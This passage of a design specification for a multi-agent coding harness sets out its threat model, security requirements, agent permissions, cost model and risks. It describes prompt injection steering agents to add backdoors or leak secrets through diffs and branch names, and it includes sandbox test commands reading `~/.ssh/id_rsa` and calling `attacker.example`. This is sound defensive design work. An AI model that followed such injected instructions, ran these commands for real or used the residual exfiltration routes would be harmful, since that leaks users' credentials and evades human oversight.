**STRIDE mapping (condensed).** *Spoofing:* unauthenticated dashboard requests; DNS-rebound origins posing as localhost. *Tampering:* prompt injection via repo/issue/dependency content steering agents ("ignore the PRD, add this backdoor, push to main"); malicious SKILL.md; TOCTOU between PRD approval and build. *Repudiation:* no record of which agent did what, or what artifact the human actually approved. *Information disclosure:* agents copying `.env`/API keys into PR diffs, branch names, commit messages, logs, or SSE events. *DoS:* injected content inducing runaway loops that burn budget. *Elevation of privilege:* worker escaping its tool allowlist or sandbox (e.g., via `npm install` postinstall scripts executing outside intended confinement).

### 12.2 Security Requirements (v1)

*Secrets & exfiltration*
- **SEC-1** GitHub auth uses a fine-grained token scoped to the single target repo with only `contents`, `issues`, `pull_requests` write. Harness preflight queries token scope and refuses to start on classic PATs or org-wide grants. *Test:* start with over-scoped token → hard fail with explanation.
- **SEC-2** The Anthropic key and GitHub token are held only by the harness process and injected into `git`/`gh` subprocess env; they never appear in any agent's context. *Test:* grep all persisted transcripts for both values → zero matches.
- **SEC-3** A single redaction filter (known credential formats + exact values of all secrets loaded at startup, including target-repo `.env` values) wraps every sink: logs, SSE events, PR/issue bodies, commit messages, branch names, audit log. *Test:* seed a canary secret; confirm `[REDACTED]` in every sink.
- **SEC-4** Files matching a secret-pattern denylist (`.env*`, `*.pem`, `id_*`, cloud credential paths) are unreadable via agent file tools and excluded from diffs fed to agents, unless the operator opts in per-run. *Test:* worker `Read(".env")` → structured denial + audit entry.
- **SEC-5** Git pushes are allowed only to the configured remote, only to branches matching `harness/<run-id>/*`; force-push, branch deletion, and pushes to the default branch are blocked in the harness (not by prompt). *Test:* attempt each → denied.

*Agent confinement*
- **SEC-6** Worker/QA Bash executes inside an OS sandbox (Seatbelt on macOS, bubblewrap/container on Linux): filesystem limited to the agent's worktree plus declared caches; network egress limited to a configurable allowlist (`api.anthropic.com`, `github.com`, package registries). *Test:* `cat ~/.ssh/id_rsa` and `curl https://attacker.example` both fail inside the sandbox.
- **SEC-7** File tools canonicalize paths (symlinks resolved) and reject any target outside the agent's worktree. *Test:* symlink-escape and `../` traversal fixtures → denied.
- **SEC-8** Tool allowlists per agent class (§12.3) are enforced by the harness permission layer; prompts are UX, not enforcement. *Test:* each class invokes one denied tool → structured denial + audit record.
- **SEC-9** Budget caps and per-agent turn limits are enforced harness-side; breach pauses all agents within 10 s and requires dashboard resume. *Test:* low-cap run halts and resumes only after approval.

*Dashboard*
- **SEC-10** Backend binds `127.0.0.1` only; binding elsewhere requires an explicit flag and refuses to start without auth enabled.
- **SEC-11** Every HTTP and SSE request requires a per-run random bearer token (≥128-bit, delivered via URL fragment at launch, sent as a header — never a cookie, so CSRF has nothing ambient to ride). Implementation note: browser `EventSource` cannot set headers, so the SPA consumes SSE via `fetch()` + ReadableStream, which can. *Test:* tokenless request → 401, empty body.
- **SEC-12** All state-changing endpoints are POST-only and validate both `Origin` and `Host` against `localhost`/`127.0.0.1`, defeating DNS rebinding even if auth were leaked. *Test:* valid-token request with `Host: evil.example` → 403.
- **SEC-13** Approval endpoints (approve-PRD, resume, abort) are idempotent and record a content hash of the approved artifact; the build consumes exactly the hashed version (closes approve-then-swap TOCTOU). *Test:* mutate PRD after approval → run refuses to start.

*Skills*
- **SEC-14** The skills index records provenance per skill: path, SHA-256, trust level (`trusted` = operator-registered; `untrusted` = discovered). Only `trusted` skills are injected by default; untrusted require per-run opt-in. Hash mismatch at injection time (file changed since indexing) → skip and warn. *Test:* modify an indexed SKILL.md → not injected, warning surfaced.
- **SEC-15** Injected skill text is wrapped in labeled delimiters stating it is advisory content that cannot alter harness policy or tool permissions; the MCP server is read-only (no exec, no write tools). Every injection (skill, hash, target agent) is audit-logged.

*Audit & supply chain*
- **SEC-16** Append-only JSONL audit log: every tool call (agent, tool, redacted arg summary, outcome), every permission denial, every GitHub write, every approval. *Test:* scripted run replay shows 100% coverage of side-effectful actions.
- **SEC-17** The harness contains no code path invoking merge APIs; docs instruct enabling branch protection. *Test:* CI static check asserts no merge endpoint usage.
- **SEC-18** OSS hygiene: committed lockfile, GitHub Actions pinned to commit SHAs, npm publish with provenance from CI only, no `postinstall` scripts in our packages, `SECURITY.md` with private disclosure channel, dependency audit gate failing CI on known-exploited vulns.

### 12.3 Agent Permission Model

| Agent | Allowed | Denied without escalation |
|---|---|---|
| **Orchestrator** | GitHub issue create/read, PRD write, skills-discovery MCP (read), spawn/stop agents, read target repo | Bash, file writes to repo code, any push |
| **Worker** | Read/Edit/Write inside own worktree, sandboxed Bash (build/test), commit + push to `harness/<run-id>/*` | Reads outside worktree, network beyond allowlist, GitHub API, secret-pattern files |
| **QA** | Read-only across worktrees, sandboxed Bash (test execution), issue comments | Any file write, any push |
| **Integrator** | Merge worktree branches locally, resolve conflicts, push run branches, open PRs | Merge PRs, push to default branch, delete branches |

**Escalation:** any denied action surfaces as a dashboard approval card (agent, action, exact args, rationale); the human grants once or per-run. Denials are never silently retried; three denials of the same action pauses the agent. No agent may modify harness config, permission settings, or the skills registry — ever, including via escalation.

Note: QA agents must commit the tests they write (US-10), so the "read-only" row applies to reviewing *other* worktrees; within its assigned task worktree QA may write only under `tests/` paths declared in `harness.config.ts`.

### 12.4 Explicitly Out of Scope for v1

- **Multi-user dashboard auth/RBAC.** Single-operator localhost tool; per-run token suffices. Multi-tenancy would triple the auth surface for no v1 user.
- **Defending against a malicious model provider.** We trust Anthropic's API; mitigating a hostile model is not tractable at this layer.
- **Full egress DPI/TLS inspection.** Domain-level allowlisting (SEC-6) is the 80% control; a MITM proxy adds heavy complexity and its own CA-trust risks. Residual: exfiltration to allowlisted hosts (e.g., data smuggled into a public GitHub repo) — accepted, mitigated by audit log + human PR review.
- **Safely running arbitrarily malicious *target* repos.** Sandbox raises the bar, but a target repo whose build system is designed to attack the host (kernel exploits, sandbox 0-days) is beyond v1. Documented: "run repos you trust."
- **Secret scanning of target repo git history**, Windows sandbox parity, and compliance artifacts (SOC 2 etc.) — deferred; none block the core threat model.

### 12.5 Top 5 Security Risks

| # | Risk | Severity | Mitigation |
|---|---|---|---|
| 1 | Prompt injection in repo/issue/dependency content steers a worker into exfiltrating secrets via PR diff, branch name, or logs | **Critical** — untrusted input meets valuable secrets and a durable public channel | SEC-2/3/4 (secrets out of reach + redaction), SEC-5 (push confinement), human PR review as final gate |
| 2 | Malicious or tampered SKILL.md injects instructions into every matched worker | **High** — one-to-many amplifier, local file write is a low bar | SEC-14/15 (provenance, hashing, trust levels, delimited injection, audit) |
| 3 | DNS rebinding / CSRF forges approval or resume on the dashboard, bypassing the human gate | **High** — drive-by web page defeats the system's core control | SEC-10/11/12/13 (loopback bind, header token, Origin+Host checks, artifact hashing) |
| 4 | Sandbox escape via target-repo toolchain (npm postinstall, test runners) reaches host FS/credentials | **High** — arbitrary code execution is inherent to building software | SEC-6/7 (OS sandbox, path canonicalization), scoped tokens (SEC-1) cap blast radius |
| 5 | Compromise of the harness's own OSS release pipeline ships a backdoor to all users | **High** (likelihood lower, impact ecosystem-wide) | SEC-18 (pinned actions, provenance publishes, no install scripts, disclosure process) |

**Posture summary:** v1 security rests on three load-bearing walls — secrets never enter model context, side effects are mechanically confined (sandbox + push scoping + tool allowlists), and every human gate is authenticated, origin-checked, and hash-bound. Prompt injection is assumed to *succeed* at the persuasion layer; the design makes success unprofitable.

---

## 13. Performance & Cost

### 13.1 Cost Model

**Pricing assumptions (Claude API list, July 2026):** Opus 5 $5/$25 per MTok in/out (orchestrator/integrator); Sonnet 5 $3/$15 (workers, QA); Haiku 4.5 $1/$5 (classification/routing). Prompt caching: reads ≈0.1× input price, writes 1.25× (5-min TTL). Batch API (50% off) is unusable here — runs are latency-sensitive.

**Where tokens go.** In an agentic loop the full conversation is resent every turn, so *cumulative input* dominates — typically 10–30× output tokens. For one worker session (context growing 20K→120K tokens over 40–80 turns), cumulative input is 2–5M tokens. Uncached at Sonnet rates that is $6–15 *per worker task*; with ≥85% cache-hit it collapses to $1.50–4. The cost stack, in descending order:

1. **Worker context resend** (~50–65% of run cost): N parallel workers × long tool-use loops. Entirely cache-hit-rate sensitive.
2. **QA iteration loops** (~15–25%): each QA→worker round-trip replays both agents' contexts plus test output dumps. A component that fails QA 3× costs ~2.5–3× a first-pass component.
3. **Planning/orchestration** (~5–10%): the planner reads the assignment + repo survey, emits PRD + issues. 100–500K input, 10–40K output → $1–5. Small absolute cost but the highest per-token price — keep repo dumps out of the orchestrator.
4. **Skill injection** (~5–15% if done naively): a matched SKILL.md of 3–8K tokens injected into a worker prompt is re-billed on *every* uncached turn. 5K tokens × 60 turns × 8 workers = 2.4M token-equivalents if it invalidates the cache prefix.
5. **Retries/compaction/integrator** (~5–10%): failed runs re-establishing context, merge-conflict resolution.

**Per-run envelopes** — *pre-benchmark estimates, not measurements*: derived from the pricing and context-growth assumptions above. The v0.0 walking skeleton (§7) exists to replace this table with measured numbers from reference assignments before any figure is published externally. (Assumes caching per PERF-1; roughly 3× these numbers without it.)

| Run size | Scope | Token volume (cumulative input / output) | Est. cost | Budget cap |
|---|---|---|---|---|
| Small | 1–3 components, 2 workers, ≤1 QA round each | 5–15M / 0.3–0.8M | **$5–15** | $30 |
| Medium | 5–10 components, 4–6 workers, avg 1.5 QA rounds | 25–60M / 1–3M | **$30–90** | $150 |
| Large | 15–25 components, 8–12 workers, integrator conflicts | 100–250M / 4–10M | **$150–400** | $600 |

Dominant drivers, ranked: cache hit rate (3–8× swing), QA iteration count (linear multiplier per failure), context length discipline (quadratic-ish: longer contexts cost more *and* run more turns), skill/tool prefix bloat.

### 13.2 Token-Efficiency Requirements

- **PERF-1 (prompt caching):** All agent requests MUST order prompt content stable-first: tools → shared system prompt → injected skills → task spec → conversation. `cache_control` breakpoint after the skill block. No timestamps, run IDs, or non-deterministically serialized JSON in the prefix. **Test:** `usage.cache_read_input_tokens / (cache_read + input_tokens) ≥ 0.85` averaged over turns ≥3 of any worker session; CI test asserts byte-identical prefix render across two consecutive turns.
- **PERF-2 (context budget per agent):** Hard per-agent context ceilings: worker 120K, QA 80K, orchestrator 200K, integrator 100K tokens. At 80% of ceiling, trigger context editing/compaction rather than failing. **Test:** no request in a run exceeds its ceiling; alert when any agent compacts >2× per task.
- **PERF-3 (artifact passing):** Inter-agent handoff MUST use files or structured summaries (≤2K tokens: changed-file list, interface signatures, test results, decisions), never full transcripts. QA receives the diff + worker summary, not the worker conversation. **Test:** grep handoff payloads; any inter-agent message >4K tokens fails review.
- **PERF-4 (skill injection threshold):** Skills ≤1.5K tokens inject full-text; larger skills inject frontmatter + path only ("read `SKILL.md` before starting"), letting the worker load it via a Read tool call (billed once, then cached in-conversation). Max 2 full-text skills per worker. **Test:** static prompt size attributable to skills ≤3K tokens per worker.
- **PERF-5 (QA iteration cap):** Max 3 QA→worker iterations per component; on the 3rd failure, escalate to the orchestrator (top-tier model) for one diagnosis pass or mark the task blocked. Iterations reuse the live worker session when available (warm context + cache hits make this the cheaper path — see §11.6); a **fresh** worker spawned after session death starts from summary + diff (PERF-3), never a replayed transcript. **Test:** no component exceeds 3 iterations in run telemetry.
- **PERF-6 (model routing):** Haiku for commit-message generation, log classification, skill-match re-ranking, and issue labeling; Sonnet for workers/QA; Opus-tier only for PRD planning, escalations (PERF-5), and final integration review. Never mid-conversation model switches (kills cache); route by spawning a fresh agent. **Test:** cost report shows Opus-tier ≤20% of run spend on medium runs.
- **PERF-7 (budget enforcement):** Per-task and per-run caps checked *before* each API call using running `usage` totals (input + cache_read×0.1 + cache_write×1.25 + output, priced per model); pause run within one turn of breach — never discover overage from the bill. **Test:** synthetic low-cap run pauses with ≤5% overshoot.
- **PERF-8 (retry hygiene):** On agent crash/timeout, resume from last artifact checkpoint (task state file + git worktree), not by replaying the transcript from scratch. **Test:** kill a worker mid-task; recovery cost ≤30% of cost-to-date for that task.

### 13.3 Throughput & Latency

Parallelism is bounded by three ceilings; the scheduler MUST respect whichever binds first:

- **API rate limits:** N concurrent Sonnet workers each pushing 60–120K input-tokens/min will saturate a Tier-2/3 ITPM budget at 4–8 workers. Maintain a token-rate governor: admit new workers only when projected ITPM/OTPM < 80% of tier limit; back off on 429 using `retry-after` (the SDK retries, but the scheduler must also stop *admitting*).
- **Local CPU:** builds/tests from parallel worktrees contend for cores. Cap concurrent build/test jobs at `min(workers, cores/2)` via a semaphore; agents queue for test slots rather than thrashing.
- **Git contention:** worktrees share one object store — serialize `git fetch`/`merge`/branch-creation through a mutex; concurrent index-lock failures must retry with jitter, not fail the task.

**Expected wall-clock, medium run (6 workers, 8 components):** planning 3–6 min; implementation waves 20–40 min (worker task ≈ 8–20 min, overlapped); QA + iteration 10–20 min (overlapped); integration + PRs 5–10 min → **35–75 min total**. Turn latency: Sonnet tool-use turns run 5–30 s; anything over 120 s should be treated as a stall and probed.

**Scheduler efficiency requirements:** no ready task waits >10 s while a worker slot and rate-limit headroom exist (measure "idle-slot seconds" per run; target <2% of run duration). Dependency-order tasks so QA of component A overlaps implementation of component B. Workers blocked on QA must release their build-slot semaphore.

### 13.4 Dashboard Performance

At 10+ agents, raw event rate is 50–200 events/s (tool calls, log lines, token deltas). Requirements:

- **Coalescing:** batch server→client emissions on a 100 ms flush interval per channel; merge token-count/cost meter updates to latest-value (they're gauges, not logs). Target ≤10 SSE frames/s/client regardless of agent count.
- **Backpressure:** per-client bounded outbound queue (e.g., 500 frames); on overflow, drop intermediate log deltas and send a `truncated` marker + snapshot — never buffer unboundedly in the Node process (this is the classic SSE memory-leak path).
- **UI:** virtualized log panes (render only visible rows); cap in-DOM log lines at 2K per agent with "load earlier" fetching from disk; task board and cost meters update via coalesced state diffs, not re-renders of the full tree. Target: interaction latency <100 ms and steady-state main-thread usage <30% with 12 live agents.
- **Retention:** in-memory ring buffer of ~5K events/agent for live view; full event stream in SQLite (per run) for replay; prune runs older than N days. Server heap for event state <500 MB on large runs.

### 13.5 Metrics & Observability (build in from day one)

Per-task: input/output/cache_read/cache_write tokens, cost, turn count, wall-clock, QA iterations, retries. Per-run: cost per phase (plan/implement/QA/integrate), cache hit rate per agent type, **cost per merged PR** (the headline efficiency KPI), QA first-attempt pass rate (target >60%; below 40% indicates prompt/skill quality problems, not a worker problem), idle-slot seconds, 429 count, wall-clock per phase, tokens attributable to injected skills. Emit as structured JSONL + dashboard; every model-request span must record `usage` so cost is reconstructable offline.

### 13.6 Top Performance Risks (ranked)

1. **Silent cache invalidation** (3–8× cost). One timestamp in the system prompt defeats PERF-1 invisibly. *Mitigation:* PERF-1 CI test + runtime alert when any agent's session hit-rate <70% after turn 3.
2. **QA↔worker ping-pong** (unbounded per-task cost). *Mitigation:* PERF-5 cap + escalation; track first-pass rate as a leading indicator.
3. **Rate-limit collapse under parallelism** (throughput cliff, retry storms). *Mitigation:* token-rate governor, jittered backoff, worker admission control.
4. **Context bloat from tool output** (test logs/build output dumped verbatim). *Mitigation:* truncate tool results to tails + error extracts (≤4K tokens); offload full output to files the agent can grep.
5. **Runaway/looping agent burning budget.** *Mitigation:* PERF-7 pre-call budget check, per-task turn cap (~100), stall detection.
6. **Dashboard memory growth killing the orchestrator process.** *Mitigation:* bounded queues + disk spill (§13.4); dashboard runs isolated from scheduler event loop.
7. **Git lock contention serializing "parallel" workers.** *Mitigation:* git op mutex with jittered retry; per-worktree isolation audit in CI.

---

## 14. Consolidated Risk Register (top-level)

| Rank | Risk | Domain | Reference |
|---|---|---|---|
| 1 | Cost runaway via agent loops / cache invalidation | Perf/Arch | §11.8-1, §13.6-1/2 |
| 2 | Prompt-injection-driven secret exfiltration | Security | §12.5-1 |
| 3 | Bad planner decomposition poisons the run | Arch/Product | §11.8-2, §10 |
| 4 | Trust cliff after one bad run | Product | §10 |
| 5 | Malicious/tampered skill injection | Security | §12.5-2 |
| 6 | Rate-limit collapse under parallelism | Perf | §13.6-3 |
| 7 | Dashboard gate forgery (DNS rebinding/CSRF) | Security | §12.5-3 |

## 15. Open Questions

1. **Skill matching quality bar** — is lexical (BM25) matching good enough for v0.1, or does mis-routing skills hurt worker quality enough to pull embeddings forward? Decide from v0.1 telemetry (skill-usage audit vs QA pass rate).
2. **QA agent test ownership** — should QA-written tests land in the component PR (current design) or a separate test PR for reviewability?
3. **Conventions doc drift** — when workers discover the plan's conventions doc is wrong mid-run, what's the update path? (v1: park as `NEEDS_HUMAN` note; revisit.)
4. **Pricing display** — show live cost in $ (requires maintained price table) or tokens only? v1: both, price table versioned in-repo.
5. **Final name** — §9 candidates need trademark/npm/GitHub availability checks before OSS launch.

## Appendix A — Glossary

**Run** — one assignment→PRs lifecycle. **Gate** — a blocking human decision point. **Worker** — Sonnet agent implementing one task in one worktree. **QA agent** — Sonnet agent verifying a task against acceptance criteria with a test-writing mandate. **Integrator** — serial merge + PR-opening step. **Skill** — a SKILL.md playbook injected into agent prompts by relevance. **Conventions doc** — planner-emitted shared coding conventions injected into every worker.

